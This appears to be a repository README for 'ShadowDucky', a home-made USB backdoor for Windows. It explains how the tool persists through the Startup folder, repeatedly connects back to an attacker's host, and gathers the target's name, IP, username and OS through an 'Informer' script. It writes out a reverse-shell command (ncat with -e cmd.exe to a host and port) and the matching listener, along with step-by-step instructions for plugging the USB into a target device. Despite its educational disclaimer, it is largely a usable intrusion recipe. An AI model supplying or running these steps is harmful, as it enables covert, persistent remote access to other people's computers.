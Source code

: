 # ShadowDucky-USB
This is a home made "Rubber Ducky". it gives the user a reverse shell and can grab information

------------WELCOME TO SHADOW DUCKY... -------------------------------------------------TRY AND READ THE HIDDEN MESSAGE...-----------------------------

INFO: This is a USB remote back door. This program "ShadowDucky" will run when
"ShadowDuckyV2.vsb" is double clicked. Some of the files will have to be edited
in notepad to suit it best for it's application. Please follow the listed instructions
below to help you properly run "ShadowDucky". 

This was created as a project to learn Powershell functionality, scripting with different
coding languages, and reverse shelling. This is a reverse shell for Windows to Windows.

NOTE: Required rescourses will be Powershell, Nmap, Windows.

ShadowDucky: Uses a combination of VBScript, ".bat" cmd and powershell functionality.
This program once ran will move the RubberDucky.bat into the "Intel" file and the 
"ShadowDucky.vsb" to the Startup folder to activate each time the computer starts
up and is logged into. It will continuesly ping the host computer until a connection
is made, after the host disconnects it will resume pinging until theres a new connection.
Each time the target computer is on it will allow for a reverse shell from a remote device at anypoint in time 
(as long as target device is on).

NOTE: ShadowDucky runs in the background for better use.

-------------------------------------------------------------INSTRUCTIONS-----------------------------------------------------------------------------

1st: You will need to install "nmap" on both your computer and target device in order to use ShadowDucky.
Nmap: https://nmap.org/download

2nd: You will need to place the IP of your host device into "RubberDucky.bat"
     you place IP of host and PORT being used into that function.

EX: powershell -command do {ncat FF.FF.FF.FF PORT -e cmd.exe} until ($ping) 
EX: powershell -command do {ncat 00.00.00.00 0000 -e cmd.exe} until ($ping)


3th: After settings are changed, plug ShadowDucky usb into target device
     and double click ShadowDuckyV2.vbs and watch the show.
	 return to Host device and use powershell and use the following command 
	 to connect the target device.
	 
EX: ncat -l -p PORT -v
EX: ncat -l -p 0000 -v
    make sure the port is the same number as the port set up in "RubberDucky.bat"	 

4th:ENJOY @-[:]

HIDDEN MESSAGE: sx& vqz& rlj& bulf& gost& kztg& djqp& gou& hzggtum& olt& huazj& ljf& sw& lnbulfv& sj& oubu& plndsja& lbqzjf&.& &Solfqp& qb& jqg& vqz& rljg& tuu& wu

ADVISEMENT & DISCLAIMER: This application was made for purely Educational Purposes. 
                        Developer will not be heald liable for any miss use with
                        this source code. Please be sure if you are going to use
                        "ShadowDucky" that it is on your own devices or you have
                        permission from the owner of the device(s). 
+---------+
| Shadow  |
|   Drums |
|  TM     |
+---------+
-----------------------------------------------------------------------------

--------------WELCOME TO SHADOW DUCKY INFORMER-------------------------------------------

NOTICE: USE INFORMER BEFOR SHADOWDUCKY TO GET INFO TO SET UP SHADOWDUCKY FOR USAGE

ShadowDucky Informer helps with getting the information you need in order to edit and 
use ShadowDucky. "This Informer" will give the user a print out in the ShadowDucky USB,
Intel-Report Folder. The current computers name, IPv4, User Name, and OS will be printed
out into Intel-Report.txt

--------------------------------------INSTRUCTIONS---------------------------------------

Double click Informer.vbs and wait a minute for your report to be given.
After one minute check the Intel-Report Folder and use the information
in the ".txt" to set up ShadowDucky.

TO SET UP SHADOWDUCKY:

Read the "README.txt" in the README Folder

-----------------------------------------------------------------------------------------

          DISCLAIMER:   This application was made for purely Educational Purposes. 
                        Developer will not be heald liable for any miss use with
                        this source code. Please be sure if you are going to use
                        "ShadowDucky" that it is on your own devices or you have
                        permission from the owner of the device(s).
------------
|  Shadow  |
|    Drums |
|   TM     |
------------
-----------------------------------------------------------------------------

Please Be Responsible
